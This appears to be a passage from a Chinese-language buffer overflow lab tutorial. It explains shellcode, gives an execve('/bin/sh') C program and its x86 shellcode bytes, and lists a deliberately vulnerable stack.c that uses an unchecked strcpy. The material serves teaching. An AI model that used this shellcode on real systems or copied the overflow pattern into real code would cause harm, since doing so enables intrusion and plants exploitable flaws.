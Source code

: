 ####3.2 shellcode

一般情况下，缓冲区溢出会造成程序崩溃，在程序中，溢出的数据覆盖了返回地址。而如果覆盖返回地址的数据是另一个地址，那么程序就会跳转到该地址，如果该地址存放的是一段精心设计的代码用于实现其他功能，这段代码就是shellcode。

观察以下代码：

```
#include <stdio.h>
int main( ) {
char *name[2];
name[0] = ‘‘/bin/sh’’;
name[1] = NULL;
execve(name[0], name, NULL);
}
```

本次实验的shellcode，就是刚才代码的汇编版本：

```
\x31\xc0\x50\x68"//sh"\x68"/bin"\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```

####3.4 漏洞程序

把以下代码保存为“stack.c”文件，保存到 /tmp 目录下。代码如下：

```
/* stack.c */
/* This program has a buffer overflow vulnerability. */
/* Our task is to exploit this vulnerability */
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int bof(char *str)
{
char buffer[12];

/* The following statement has a buffer overflow problem */
strcpy(buffer, str);

return 1;
}

int main(int argc, char **argv)
{
char str[517];
FILE *badfile;
badfile = fopen("badfile", "r");
fread(str, sizeof(char), 517, badfile);
bof(str);
printf("Returned Properly\n");
return 1;
}
```
